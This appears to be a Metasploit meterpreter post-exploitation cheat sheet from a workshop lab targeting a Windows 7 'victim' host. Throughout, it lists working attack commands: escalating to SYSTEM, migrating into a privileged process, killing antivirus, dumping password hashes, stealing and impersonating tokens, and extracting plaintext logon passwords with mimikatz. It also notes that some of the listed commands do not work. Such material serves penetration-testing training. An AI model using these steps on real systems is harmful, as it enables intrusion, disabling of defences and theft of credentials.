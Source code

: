  
meterpreter > getuid
Server username: win7-64-victim\Workshop
meterpreter > getsystem
...got system (via technique 1).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
 
--------------------------------------------------------
 
meterpreter > ps                (search for a process running as NT AUTHORITY\SYSTEM)
 
meterpreter > migrate 2800      (your process id WILL NOT be 2800, but make sure you use one that is running at NT AUTHORITY\SYSTEM)

meterpreter> run killav
 
meterpreter> run post/windows/gather/hashdump
 
meterpreter> run post/windows/gather/credentials/credential_collector
 
 
********************************** Steal Tokens **********************************
 
meterpreter > getsystem
 
meterpreter > use incognito
 
meterpreter > list_tokens -u
 
meterpreter > list_tokens -g
 
meterpreter > impersonate_token                         <-- choose who you want to impersonate but be sure to use 2 slashes in the name (ex: impersonate_token domain\\user)
 
meterpreter> getuid
 
 
************ Stealing credentials and certificates ************
- NOTE: Most of the stuff after 'kerberos' DOES NOT work, but is given here so you know the correct syntax to use when connected to AD or dealing with smart/CAC cards.
 
meterpreter > getsystem
 
meterpreter > load mimikatz
 
meterpreter > kerberos
 
meterpreter > mimikatz_command -f sekurlsa::logonPasswords -a "full"
 
meterpreter > msv                                                               <-- Your AD password
 
meterpreter > livessp                                                           <-- Your Windows8 password
 
meterpreter > ssp                                                               <-- Your outlook password
 
meterpreter > tspkg                                                             <-- Your AD password
 
meterpreter > wdigest                                                           <-- Your AD password
 